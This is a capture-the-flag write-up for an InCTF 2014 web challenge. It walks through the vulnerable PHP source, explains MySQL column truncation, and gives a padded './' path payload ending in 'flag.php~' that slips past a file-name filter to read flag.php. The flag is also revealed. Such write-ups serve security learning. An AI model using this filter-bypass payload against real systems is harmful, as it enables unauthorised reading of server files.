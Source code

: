 ```yaml
---
layout: post
title: InCTF 2014 - Web 300 writeup
date: 2014-03-08 17:11:14.000000000 +05:30
excerpt: "A web security writeup on SQL Truncation vulnerability that we used to solve a challenge in InCTF 2014"
type: post
published: true
status: publish
author: Nagesh Podilapu a.k.a H4rryp0tt3r
assetID: 8bea969a71aec10eb340c3ddc42b6d2d
---
```

In this challenge they gave a website like below with a simple form with GET Method.

{% include image.html url="/assets/8bea969a71aec10eb340c3ddc42b6d2d/front_screen.png" description="Front page of the given challenge" %}

And the source of the form is given as well

{% highlight html %}
<center>
<h1>File Share</h1>
<span style="color: green;"><strong>View your files</strong></span>
<form method="GET">
<table>
<tbody>
<tr>
<td align="right">File Name:</td>
<td align="left"><input type="text" name="filename" placeholder="*.txt " /></td>
</tr>
<tr>
<td align="right"><img alt="" src="captcha.php" /> :</td>
<td align="left"><input type="text" name="vercode" /></td>
</tr>
<tr>
<td></td>
<td align="left"><input type="submit" value="Submit" /></td>
</tr>
</tbody>
</table>
</form>
 <!-- Source : view.php~ --></center>
{% endhighlight %}

and after looking at the given source page, I found a link to php code of the web page

{% highlight php %}
<?php
include 'db.php';
if(isset($_GET['vercode']) && isset($_GET['filename'])){
    session_start();
    if ($_GET['vercode'] != $_SESSION["vercode"] OR $_SESSION["vercode"]==''){
        die("Wrong Captcha..");
    }
    $filename = mysql_real_escape_string($_GET['filename']);
    $id       = md5(mt_rand().rand());

    if(preg_match('/\.\.|(\.php$)/is',$filename))    die('Can\'t read php files..');
    $query = mysql_query("INSERT INTO foo VALUES('$id','$filename');");
    if($query)
        die("View your file: <a href="?id=$id">here</a>\n");
    else
        die("Something went wrong..");
    mysql_free_result($query);
}
if(!empty($_GET['id'])){
    $id      = mysql_real_escape_string($_GET['id']);
    $query   = mysql_query("SELECT * FROM foo WHERE id='$id'");
    if(!$query) die("Something went wrong..");
    while ($row = mysql_fetch_array($query)) {
        echo $row['FILENAME'];
        if (file_exists('./files/'.$row['FILENAME'])) {
            echo file_get_contents('./files/'.$row['FILENAME']);
        }
        else {
            die('No such file');
        }
 }
 mysql_free_result($query);
}
mysql_close();
?>
{% endhighlight %}

And it's a difficult challenge for me to get contents of flag.php, just before 2 days to the end of contest admin released a hint for this challenge which is an image containing text `truncation`.
Then I understood that it is something do with SQL Truncation, after reading some blog's I understand that If we try to insert a value into a column greater than it's length it will ignores the rest and inserts upto it's length only.

Example: This is a description of a table named `data` with a column `FILNAME` with length of 30.
{% highlight text %}
+----------+-------------+------+-----+---------+-------+
| Field    | Type        | Null | Key | Default | Extra |
+----------+-------------+------+-----+---------+-------+
| id       | varchar(35) | YES  |     | NULL    |       |
| FILENAME | varchar(30) | YES  |     | NULL    |       |
+----------+-------------+------+-----+---------+-------+
{% endhighlight %}

And If you insert a value of length 32 like below.
{% highlight text %}
INESRT INTO DATA VALUES('myID','d4c9fcb601ebe8aa8d4ab59dcdbf692a');
{% endhighlight %}
After executing the above query, contents of table are

{% highlight text %}
+------+--------------------------------+
| id   | FILENAME                       |
+------+--------------------------------+
| myID | d4c9fcb601ebe8aa8d4ab59dcdbf69 |
+------+--------------------------------+
{% endhighlight %}

If you would have observed, even if we insert a value of length 32 into column `FILENAME` only 30 characters added to table and rest of the string `2a` got skipped.
And then I try to find out length of the filename column by giving 500 A's as input to it, but script printed 110 A's only. Which means our filename column length is 110.
Quickly, I got an idea that, inserting 111 length string into that column skips 111th character, so I came up with this payload


./././././././././././././././././././././././././././././././././././././././././././././././././././flag.php~

`~` character at the end bypasses the regular expression <br> `preg_match('/\.\.|(\.php$)/is',$filename)` and skipped by the insert query because it's 111th character.
That gives us the contents of flag.php in source page and that is,

{% highlight php %}
<?php
$leet = "53714c5f63306c756d6e5f7472756e63407469306e";
function hex2str( $hex ){
    return pack('H*', $hex);
}
echo "flag{".md5(hex2str($leet))."}";
?>
{% endhighlight %}


After executing that php code I got the flag.

Flag is: **flag{f89759dab5b6ef402428c4571040c067}**

Thanks for reading and thanks to team bi0s for making a great CTF and introducing me to different attack vectors.

_Don't forget to give feedback on my writeup's as a reply, so that I can improve._
